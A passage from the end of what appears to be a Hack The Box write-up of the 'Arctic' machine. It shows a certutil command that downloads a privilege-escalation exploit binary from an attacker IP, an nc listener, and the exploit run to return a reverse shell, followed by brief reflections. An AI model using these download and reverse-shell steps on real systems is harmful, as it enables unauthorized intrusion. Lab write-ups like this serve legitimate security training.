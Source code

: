 ```cmd
certutil.exe -f -urlcache -split http://10.10.14.22/MS10-059.exe
certutil.exe -hashfile .\MS10-059.exe MD5
```

> **Attacker Machine**:

```bash
md5sum MS10-059.exe
```

> **Victime Machine**:

```cmd
.\MS10-059.exe
```

> **Attacker Machine**:

```bash
rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
.\MS10-059.exe 10.10.14.22 443

whoami
# :)
ipconfig
```

<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_42.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> From each **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** machine I take a lot of experience and a great feeling of satisfaction, and this machine was no exception, I could learn new vulnerabilities in technologies that I didn't know, like **CouldFusion**, and remember some techniques that I had used in previous boxes. I always take something extra from the labs that have **Windows OS**, each time it becomes my favorite target, but it's time to kill the box and go for the next one.

<br /><br />
<img src="{{ site.img_path }}/arctic_writeup/Arctic_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
